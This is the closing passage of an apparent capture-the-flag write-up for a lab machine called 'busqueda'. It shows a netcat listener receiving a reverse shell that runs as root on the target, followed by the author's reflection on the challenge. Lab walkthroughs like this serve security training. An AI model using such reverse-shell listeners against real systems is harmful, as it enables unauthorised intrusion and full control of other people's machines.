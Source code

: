 ```
$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.139] from (UNKNOWN) [10.10.11.208] 60866
root@busqueda:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
root@busqueda:/dev/shm#
```
Now we are root, and `root.txt` is up for grabs.
## Reflection
I quite enjoyed this box, being a rather relaxed set of obstacles while not giving anythinig away for free. Finding the web server so strikingly different from Searchor was a little disorienting, but it makes sense that some modifications would be made to translate Searchor, a cli=based project, into something that a web server can handle for visitors.
